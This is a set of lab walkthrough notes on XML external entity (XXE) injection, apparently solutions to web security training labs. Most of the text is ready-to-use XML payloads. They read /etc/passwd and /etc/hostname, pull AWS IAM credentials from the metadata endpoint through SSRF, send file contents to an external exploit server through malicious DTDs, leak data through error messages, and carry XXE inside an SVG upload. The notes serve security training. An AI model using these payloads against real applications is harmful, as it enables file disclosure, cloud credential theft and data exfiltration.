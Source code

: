 # XML external entity (XXE) Injection
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

### LAB: Exploiting XXE using external entities to retrieve files
Use this as the body for the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. The data then is sent within the appilcation's response.

### LAB: Exploiting XXE to perform SSRF attacks
Same as above lab:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

How to get to this path `/latest/meta-data/iam/security-credentials/admin`? Just follow the value in the error message respond by the server.

### LAB: Blind XXE with out-of-band interaction
Use this as the body of the `POST /product/stock HTTP/2` request to trigger a DNS lookup to the Collaborator domain:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "https://p1r24ceyni3yrv9h0leoinb8xz3qrgf5.oastify.com">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Blind XXE with out-of-band interaction via XML parameter entities
Sometimes, XXE attacks using regular entities (used in the document's context) are blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
In this situation, you might be able to use XML parameter entities instead (`%xee;`). XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. Use this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://1hjekoua3uja77ptgxu0yzrkdbj27uvj.oastify.com"> %xxe; ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting blind XXE to exfiltrate data using a malicious external DTD
At the exploit server, declare these paramater entities:

    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a88009e046a416381ab2e72011800da.exploit-server.net/exploit/%file;'>">

- `%file;`: loads the contents of `/etc/hostname`
- `%eval;`: create another parameter entity (`%exfiltrate;`) by injecting `&#x25;`, which is a hexadecimal representation of `%` (used to escape it in XML).
- `%exfiltrate;`: cause the server to make a request to the exploit server with the contents of /etc/hostname.

Now make the victim visit the exploit server and use the entities we declared to make the attack happen by using this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo 
        [<!ENTITY % xxe SYSTEM "https://exploit-0a88009e046a416381ab2e72011800da.exploit-server.net/exploit"> 
            %xxe;
            %eval;
            %exfiltrate;
        ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting blind XXE to retrieve data via error messages
At the exploit server, declare these paramater entities:

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexist/%file;'>">

- `%file;`: loads the contents of `/etc/passwd`
- `%eval;`: create another parameter entity (`%error;`) by injecting `&#x25;`, which is a hexadecimal representation of `%` (used to escape it in XML).
- `%error;`: cause the server to make a request to a nonexistent file which cause the logging of error message.

Now make the victim visit the exploit server and use the entities we declared to make the server log error message by using this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo 
        [<!ENTITY % xxe SYSTEM "https://exploit-0a3900dd03df199a82f8d4ec01e00003.exploit-server.net/exploit"> 
            %xxe;
            %eval;
            %error;
        ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting XXE to retrieve data by repurposing a local DTD
The above technique works fine with external DTD, but it won't normally work with an internal DTD.
So what about blind XXE vulnerabilities when out-of-band interactions are blocked? Try invoke a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.
First locate a local DTD. Use this as the body of `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % localDTD SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

Base on the error messages (no error if the file exists), we found a local DTD: `/usr/share/yelp/dtd/docbookx.dt`.
Next google for this DTD file and found an entity that we can redefine `ISOamsa`. Now use this XML to redefine `ISOamsa` and make it trigger an error message containing the `/etc/passwd` content:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % localDTD SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
        <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
        '> %localDTD;
    ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting XInclude to retrieve files
To perform an `XInclude` attack, we need to reference the `XInclude` namespace and provide the path to the file that you wish to include. Use this as the value of `productId` in the `POST /product/stock HTTP/2` request:

    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>

### LAB: Exploiting XXE via image file upload
Submit a `svg` file with the `/etc/hostname` content:

    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg [
        <!ENTITY xxe SYSTEM "file:///etc/hostname">
    ]>
    <svg xmlns="http://www.w3.org/2000/svg" width="1000" height="1000">
        <text x="10" y="50" font-size="70">&xxe;</text>
    </svg>
